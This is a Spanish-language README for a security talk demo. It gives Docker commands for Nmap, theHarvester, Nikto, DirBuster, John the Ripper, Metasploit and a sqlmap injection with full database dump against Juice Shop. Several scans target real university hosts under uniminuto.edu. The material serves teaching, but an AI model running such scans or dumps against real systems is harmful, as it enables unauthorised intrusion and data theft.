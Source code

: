 # Killer Whale


 - [Killer Whale](#killer-whale)
   - [Demo](#demo)
     - [NMAP](#NMAP)
     - [The Harvester](#the-harvester)
     - [John the Ripper](#john-the-ripper)
     - [Nikto](#nikto)
     - [Metasploit](#metasploit)
     - [Dirbuster](#dirbuster)
     - [Sqlmap](#sqlmap)


## Killer Whale

Este repo contiene información sobre la charla.

La presentación está disponible en: [Google Drive](http://bit.ly/2mviJZe)

## Demo

### NMAP

```console
docker pull instrumentisto/nmap

docker run --rm -it instrumentisto/nmap -A -T4 scanme.nmap.org --open
```

### The Harvester

```console
docker pull andersballegaard/theharvester  

docker run -it andersballegaard/theharvester -b google -d uniminuto.edu
```

### John the Ripper

```console
docker pull adamoss/john-the-ripper

docker run -it -v `pwd`/yourfiletocrack:/crackme.txt adamoss/john-the-ripper /crackme.txt
```

### Nikto

```console
docker pull frapsoft/nikto

docker run frapsoft/nikto -host http://wiwa.uniminuto.edu:8501
```

### Metasploit

```console
docker pull metasploitframework/metasploit-framework

docker run --rm -it metasploitframework/metasploit-framework ./msfconsole
```

### Dirbuster

```console
docker pull hypnza/dirbuster

docker run --rm hypnza/dirbuster -u http://biblioteca.uniminuto.edu/
```

### Sqlmap

```console
docker pull paoloo/sqlmap

docker run --rm -it -v /tmp/sqlmap:/root/.sqlmap/ paoloo/sqlmap -u 'https://juice-shop.herokuapp.com/rest/products/search?q=test' -p 'q' --dbms="sqlite" --technique U --prefix "')) " --level 5 --risk 3 --dump-all --no-cast --no-escape --flush
```

### Kali Linux

```console
docker pull kalilinux/kali-linux-docker

docker run -t -i kalilinux/kali-linux-docker /bin/bash

```




